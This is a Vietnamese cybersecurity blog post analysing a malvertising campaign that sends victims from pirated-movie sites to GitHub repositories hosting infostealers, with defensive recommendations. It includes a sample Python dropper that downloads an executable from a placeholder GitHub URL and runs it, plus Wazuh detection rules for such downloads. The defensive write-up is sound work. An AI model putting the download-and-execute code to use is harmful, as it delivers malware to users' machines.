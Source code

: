 ```yaml
---
title: "Cảnh báo nguy hiểm: Mối đe dọa mạng từ Malvertising GitHub"
date: 2025-09-13T18:02:53.347+07:00
draft: false
tags: ["an ninh mạng", "malvertising", "GitHub", "phần mềm độc hại", "infostealer"]
categories: ["An ninh mạng"]
---
```


## Table of Contents
- [Mở đầu](#mở-đầu)
- [Nội dung chính](#nội-dung-chính)
- [Kết luận](#kết-luận)

---

### Mở đầu

![Hình ảnh minh họa chuỗi tấn công Malvertising GitHub](static/images/2025-09-13T18:03:13.282+07:00.jpg)

Malvertising, hay quảng cáo độc hại, đã trở thành một trong những phương thức tấn công mạng phổ biến và tinh vi nhất hiện nay. Mới đây, một chiến dịch malvertising quy mô lớn đã bị phát hiện lợi dụng nền tảng GitHub để phân phối phần mềm đánh cắp thông tin (infostealer), gây ra mối đe dọa nghiêm trọng cho hàng triệu thiết bị trên toàn cầu [Nguồn: Microsoft Security Blog]. Bài báo cáo này sẽ đi sâu phân tích cơ chế hoạt động của chiến dịch tấn công này, lý do GitHub bị lợi dụng và đưa ra các khuyến nghị bảo mật nhằm giảm thiểu rủi ro.

Malvertising là việc sử dụng quảng cáo trực tuyến để phát tán phần mềm độc hại. Thay vì hiển thị quảng cáo hợp pháp, tội phạm mạng chèn mã độc vào các banner hoặc pop-up, chuyển hướng người dùng đến các trang web độc hại hoặc tự động tải xuống mã độc. GitHub, một nền tảng lưu trữ mã nguồn phổ biến, đã vô tình trở thành "bãi đáp" cho các phần mềm độc hại này do tính chất mở và đáng tin cậy của nó, gây khó khăn cho các hệ thống bảo mật truyền thống.

### Nội dung chính

#### Cơ chế tấn công Malvertising trên GitHub

Chiến dịch malvertising này hoạt động theo một chuỗi tấn công đa giai đoạn, tinh vi và phức tạp:

1.  **Giai đoạn Khởi nguồn (Initial Access):**
    *   Tấn công bắt đầu từ các trang web có nội dung không chính thống, đặc biệt là các trang xem phim lậu.
    *   Quảng cáo độc hại (malvertising) được nhúng vào các khung phim hoặc banner trên các trang này.
    *   Khi người dùng vô tình nhấp vào quảng cáo, họ sẽ bị chuyển hướng qua một loạt các trang trung gian [Nguồn: Blackswan Cybersecurity].

2.  **Chuyển hướng đến GitHub (Redirection to GitHub):**
    *   Sau nhiều bước chuyển hướng, nạn nhân cuối cùng sẽ được đưa đến một kho lưu trữ (repository) trên GitHub.
    *   Các kho lưu trữ này được tội phạm mạng tạo ra để lưu trữ các tệp độc hại, thường được ngụy trang dưới dạng các ứng dụng hợp pháp hoặc mã nguồn mở [Nguồn: DarkReading].

3.  **Phân phối Payload (Payload Delivery):**
    *   **Payload đầu tiên (First-stage Payload):** Tệp độc hại đầu tiên được tải xuống từ GitHub thường đóng vai trò là một "dropper" hoặc "downloader". Nó được thiết kế để tải về các phần mềm độc hại tiếp theo.
    *   **Ví dụ về code block của dropper:**
        
```python
        # downloader.py - Python script to download second-stage payload
        import requests
        import subprocess

        payload_url = "https://raw.githubusercontent.com/malicious_user/repo/main/second_stage.exe"
        local_filename = "second_stage.exe"

        try:
            response = requests.get(payload_url, stream=True)
            response.raise_for_status()
            with open(local_filename, 'wb') as f:
                for chunk in response.iter_content(chunk_size=8192):
                    f.write(chunk)
            print(f"Downloaded {local_filename}")
            subprocess.Popen([local_filename]) # Execute the downloaded payload
        except Exception as e:
            print(f"Error downloading or executing payload: {e}")
        ```

    *   **Payload thứ hai (Second-stage Payload):** Thực hiện thu thập thông tin hệ thống ban đầu, mã hóa dữ liệu nhạy cảm (ví dụ: bằng Base64) và gửi về máy chủ điều khiển (C2) của kẻ tấn công qua HTTP [Nguồn: Microsoft Security Blog].
    *   **Payload tiếp theo (Third-stage Payload):** Sau khi thông tin ban đầu được thu thập, các mã độc nguy hiểm hơn như Lumma Stealer hoặc Doenerium Stealer sẽ được triển khai. Các phần mềm này có khả năng đánh cắp thông tin đăng nhập, dữ liệu tài chính, ví điện tử và các thông tin nhạy cảm khác [Nguồn: SC Media].

#### Tại sao GitHub bị lạm dụng hiệu quả?

GitHub, với vai trò là nền tảng lưu trữ mã nguồn lớn nhất thế giới, trở thành mục tiêu hấp dẫn cho tội phạm mạng vì nhiều lý do:

*   **Đáng tin cậy và Phổ biến:** GitHub là một nền tảng uy tín và được sử dụng rộng rãi bởi các nhà phát triển và tổ chức. Nhiều công ty IT thường cho phép truy cập GitHub trong môi trường làm việc, khiến việc phát hiện lưu lượng truy cập độc hại trở nên khó khăn hơn. Kẻ tấn công lợi dụng chiến thuật "Living Off Trusted Sites" (LOTS) để ẩn mình [Nguồn: VietnamNet].
*   **Dễ dàng ngụy trang:** Các tệp độc hại có thể được lưu trữ dưới dạng mã nguồn, kịch bản (script) hoặc các công cụ hợp pháp, khiến việc phân biệt giữa mã nguồn tốt và xấu trở nên thách thức đối với các giải pháp bảo mật tự động [Nguồn: ESSVN].
*   **Thiếu giải pháp phát hiện triệt để:** Mặc dù GitHub có các cơ chế bảo mật, nhưng việc phát hiện và ngăn chặn triệt để các hành vi lạm dụng tinh vi như vậy vẫn còn là một thách thức lớn. Kẻ tấn công liên tục thay đổi phương thức để tránh bị phát hiện [Nguồn: An Toàn Thông Tin].

#### Hướng dẫn phòng tránh và bảo vệ

Để bảo vệ bản thân và tổ chức khỏi các mối đe dọa malvertising trên GitHub, cần áp dụng các biện pháp phòng ngừa sau:

1.  **Cẩn trọng với nguồn gốc truy cập:**
    *   Tránh truy cập các trang web không chính thống, đặc biệt là các trang web cung cấp nội dung "miễn phí" như phim lậu, phần mềm crack.
    *   Luôn kiểm tra URL và chứng chỉ bảo mật (HTTPS) của trang web trước khi tương tác.

2.  **Kiểm soát truy cập Internet:**
    *   Trong môi trường doanh nghiệp, cần thiết lập các chính sách kiểm soát truy cập Internet nghiêm ngặt.
    *   Giới hạn quyền truy cập vào các dịch vụ lưu trữ mã nguồn công cộng hoặc các repository không được xác minh.
    *   Sử dụng proxy hoặc tường lửa ứng dụng (WAF) để lọc và kiểm tra lưu lượng truy cập.

3.  **Tăng cường giám sát Endpoint và Network:**
    *   Triển khai các giải pháp EDR (Endpoint Detection and Response) và SIEM (Security Information and Event Management) để phát hiện hành vi bất thường.
    *   Giám sát các quy trình thực thi tệp lạ, đặc biệt là các tệp được tải xuống từ các domain GitHub.
    *   Thực hiện phân tích IoC (Indicators of Compromise) thường xuyên để phát hiện sớm các dấu hiệu tấn công.
    *   **Ví dụ cấu hình giám sát bằng Wazuh SIEM (Rule ví dụ):**
        
```yaml
        <group name="github_malware_detection,">
          <rule id="100001" level="12">
            <if_sid>60101</if_sid> <!-- Example: if a file download event occurs -->
            <field name="win.eventdata.targetFilename" type="pcre2">.*github\.com.*\.exe$</field>
            <description>Possible malware download from GitHub.</description>
            <mitre>
              <id>T1071.001</id>
              <id>T1566.001</id>
            </mitre>
          </rule>

          <rule id="100002" level="10">
            <if_sid>60101</if_sid>
            <field name="win.eventdata.processCommandline" type="pcre2">.*second_stage\.exe.*</field>
            <description>Execution of known second-stage payload from GitHub malvertising.</description>
            <mitre>
              <id>T1059.003</id>
            </mitre>
          </rule>
        </group>
        ```


4.  **Cập nhật phần mềm và giải pháp bảo mật:**
    *   Đảm bảo tất cả hệ điều hành, trình duyệt và phần mềm bảo mật (antivirus, firewall) luôn được cập nhật phiên bản mới nhất.
    *   Theo dõi các khuyến nghị và cảnh báo bảo mật từ các nhà cung cấp lớn như Microsoft, GitHub và các tổ chức an ninh mạng.

### Kết luận

Malvertising lợi dụng GitHub là một minh chứng cho sự phát triển không ngừng của các mối đe dọa mạng. Bằng cách tận dụng các nền tảng hợp pháp và đáng tin cậy, tội phạm mạng có thể dễ dàng ẩn mình và thực hiện các cuộc tấn công quy mô lớn. Việc hiểu rõ cơ chế tấn công, kết hợp với các biện pháp bảo mật chủ động và nâng cao nhận thức người dùng, là chìa khóa để bảo vệ cá nhân và tổ chức khỏi mối đe dọa tinh vi này. Các tổ chức cần đầu tư vào các giải pháp giám sát toàn diện và xây dựng quy trình ứng phó sự cố hiệu quả để đối phó kịp thời với các cuộc tấn công trong tương lai.
